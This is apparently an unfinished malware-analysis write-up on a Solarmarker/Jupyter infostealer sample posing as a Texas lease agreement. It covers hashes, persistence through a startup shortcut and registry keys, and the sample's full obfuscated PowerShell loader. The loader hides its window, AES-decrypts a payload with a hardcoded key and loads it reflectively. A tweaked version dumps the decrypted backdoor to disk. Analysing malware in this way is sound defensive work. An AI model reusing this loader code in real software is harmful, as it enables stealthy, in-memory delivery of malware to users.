




# Resources

https://www.prodaft.com/m/reports/Solarmarker_TLPWHITEv2.pdf
https://blogs.blackberry.com/en/2022/01/threat-thursday-jupyter-infostealer-is-a-master-of-disguise
https://squiblydoo.blog/2021/05/02/mars-deimos-solarmarker-jupyter-infostealer-part-1/
https://squiblydoo.blog/2021/06/20/mars-deimos-from-jupiter-to-mars-and-back-again-part-two/

NOTE: These resources were invaluable, many thanks to the authors.

# Static Analysis

**Hash (SHA256)**:
`7790696bd3838fbdb54c2ef14e71e999c654e6639d41c166e9f1a713be1f0d00`

**Sample Link**:
`https://bazaar.abuse.ch/sample/7790696bd3838fbdb54c2ef14e71e999c654e6639d41c166e9f1a713be1f0d00/`

**Filename**: One-Page-Lease-Agreement-Texas.exe

**File Type**:



Unpacked zip, executable is inside. 
It is also signed.


It is a `261MB` file. Most of the file are NULL bytes. The end of the file contains a certificate, signed as digicert. NULL bytes to thwart upload to analysis engines?

---

### DnSpy





## Dynamic

Drops the opcu...exe file. This filename is random, contains installer of `PDF Merge`


This file was uploaded to VirusTotal, VirusTotal doesn't flag it. 

---

## Digging Deeper

After executing the malware, the PDF merge installer is loaded. Continuing the Installtation results in the following:


Uploaded the `okGkvZQKZMCQMWKPcKvM.DmclUtdcxTWibfONFODUFKEhfE` file to vault. This is the encrypted malware.

As you can see a .lnk is dropped in `Users\IEUser\AppData\Roaming\Microsoft\Start Menu\Programs\Startup`

This means that the installer executable contains the powershell script, or at least the logic behind it...

If you look into the registry, the malware creates two keys, one contains the powershell script.




**NOTE** all filenames, reg key names are random as determined by analysis. 

This is the powershell script (raw):

```ps1
powershell -command "
$showWindowAsync=Add-Type -MemberDefinition 
('['+'D'.ToUpper()+'ll'.ToLower()+'I'.ToUpper()+'mport('.ToLower()+[char]0x22+'user32.dll'.ToLower()+[char]0x22+')]
public static extern bool '.ToLower()+'S'.ToUpper()+'how'.ToLower()+'W'.ToUpper()+'indow'.ToLower()+'A'.ToUpper()+'sync('.ToLower()+'I'.ToUpper()+'nt'.ToLower()+'P'.ToUpper()+'tr hWnd, int nCmdShow);'.ToLower()) -Name ('W'.ToUpper()+'in32'.ToLower()+'S'.ToUpper()+'how'.ToLower()+'W'.ToUpper()+'indow'.ToLower()+'A'.ToUpper()+'sync'.ToLower()) -Namespace Win32Functions -PassThru;$showWindowAsync::ShowWindowAsync((Get-Process -Id $pid).MainWindowHandle, 0);
$AC=New-Object System.Security.Cryptography.AesCryptoServiceProvider;$AC.Key=[Convert]::FromBase64String('ggWCtN05dQLaZyRJ5b0VxCgZo3M8oTV/eM6siucTGPA=');
$EB=[Convert]::FromBase64String([IO.File]::ReadAllText('C:\Users\IEUser\AppData\Local\Temp\wTMrMXVPWLkBZKqRrmbKKFsCQFUBH\okGkvZQKZMCQMWKPcKvM.DmclUtdcxTWibfONFODUFKEhfE'));
$AC.IV = $EB[0..15];$Decryptor=$AC.CreateDecryptor();$UB=$Decryptor.TransformFinalBlock($EB, 16, $EB.Length-16);
$AC.Dispose();[Reflection.Assembly]::Load($UB);[OX2ZGtuX4Enq17E.rm4m44ex6Y5ffYLh]::BDBOvPl7ZyRDJU_sfUSE();"
```


deobfuscate the powershell script.

```powershell
$showWindowAsync=Add-Type -MemberDefinition ('['+'D'.ToUpper()+'ll'.ToLower()+'I'.ToUpper()+'mport('.ToLower()+[char]0x22+'user32.dll'.ToLower()+[char]0x22+')]public static extern bool '.ToLower()+'S'.ToUpper()+'how'.ToLower()+'W'.ToUpper()+'indow'.ToLower()+'A'.ToUpper()+'sync('.ToLower()+'I'.ToUpper()+'nt'.ToLower()+'P'.ToUpper()+'tr hWnd, int nCmdShow);
'.ToLower()) -Name ('W'.ToUpper()+'in32'.ToLower()+'S'.ToUpper()+'how'.ToLower()+'W'.ToUpper()+'indow'.ToLower()+'A'.ToUpper()+'sync'.ToLower()) -Namespace Win32Functions -PassThru;
$showWindowAsync::ShowWindowAsync((Get-Process -Id $pid).MainWindowHandle, 0);
$AC=New-Object System.Security.Cryptography.AesCryptoServiceProvider;
$AC.Key=[Convert]::FromBase64String('ggWCtN05dQLaZyRJ5b0VxCgZo3M8oTV/eM6siucTGPA=');
$EB=[Convert]::FromBase64String([IO.File]::ReadAllText('C:\Users\IEUser\AppData\Local\Temp\wTMrMXVPWLkBZKqRrmbKKFsCQFUBH\okGkvZQKZMCQMWKPcKvM.DmclUtdcxTWibfONFODUFKEhfE'));
$AC.IV = $EB[0..15];
$Decryptor=$AC.CreateDecryptor();
$UB=$Decryptor.TransformFinalBlock($EB, 16, $EB.Length-16);
$AC.Dispose();
Set-Content .\backdoor.bin -Value $UB -Encoding Byte

```

This script decrypts the `okGkvZQKZMCQMWKPcKvM.DmclUtdcxTWibfONFODUFKEhfE` file.
See Key and IV above: `ggWCtN05dQLaZyRJ5b0VxCgZo3M8oTV/eM6siucTGPA=` and `$EB[0..15]`

Using `Set-Content .\backdoor.bin -Value $UB -Encoding Byte` the save the decrypted bytes to a file (credit goes to **squiblydoo.blog** for the code snippet above to save the decrypted dll to a file).

loaded into DNspy:


**SHA256** Hash of the DLL: `a5aae18b76d196ba1c4904f557f6e3bae5574bd740150b2978e80de4cbc75417`

Heavily obfuscated. 
de4dot is of no help here, obfuscation persists.

---

...hopefully more to come.